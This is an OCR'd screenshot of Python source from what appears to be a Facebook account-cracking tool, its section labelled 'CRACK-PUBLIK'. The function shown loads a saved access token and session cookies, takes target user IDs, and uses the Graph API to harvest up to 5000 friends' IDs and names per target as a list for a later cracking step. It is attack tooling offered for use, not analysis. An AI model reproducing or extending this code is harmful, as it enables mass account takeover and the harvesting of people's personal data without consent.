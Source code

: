     elif kz in ['0','00']:
        back()
    else:
        print('\033[0;91m==================')
        animation(' \033[97;1m[\033[92;1m•\033[97;1m] NO OPTION FOUND IN MENU')
        exit()
 
#-------------------[ CRACK-PUBLIK ]----------------#
 
def dump_massal():
    try:
        token = open('.token.txt','r').read()
        cok = open('.cok.txt','r').read()
    except IOError:
        exit()
    try:
        print('\033[0;91m==================')
        jum = int(input(' \033[97;1m[\033[92;1m•\033[97;1m] ENTER TARGET AMOUNT  : '))
        print('\033[0;91m==================')
    except ValueError:
        print('\033[0;91m==================')
        animation(' [×] INVALID OPTION ')
        exit()
    if jum<1 or jum>100000000:
        print('\033[0;91m==================')
        animation(' [×] TRY AGAIN ')
        exit()
    ses=requests.Session()
    yz = 0
    for met in range(jum):
        yz+=1
        kl = input(' \033[97;1m[\033[92;1m•\033[97;1m] INPUT UID '+str(yz)+' : ')
        uid.append(kl)
    for userr in uid:
        try:
            col = ses.get('https://graph.facebook.com/v2.0/'+userr+'?fields=friends.limit(5000)&access_token='+tokenku[0], cookies = {'cookies':cok}).json()
            for mi in col['friends']['data']:
                try:
                    iso = (mi['id']+'|'+mi['name'])
                    if iso in id:pass
                    else:id.append(iso)
                except:continue
        except (KeyError,IOError):
            pass
        except requests.exceptions.ConnectionError:
            print('\033[0;91m==================')
            animation(' [×] TRY AGAIN ')
            os.system('clear')
    try:
        print('\033[0;91m==================')
        print(f' \033[97;1m[\033[92;1m•\033[97;1m] TOTAL ID : \u001b[36m'+str(len(id))+'\033[1;37m')
        setting()
    except requests.exceptions.ConnectionError:
        print(f'{u}')
        back()
    except (KeyError,IOError):
        print('\033[0;91m==================')
        animation(" [×] DUMP ID FAILED ")
        time.sleep(3)
        back()
 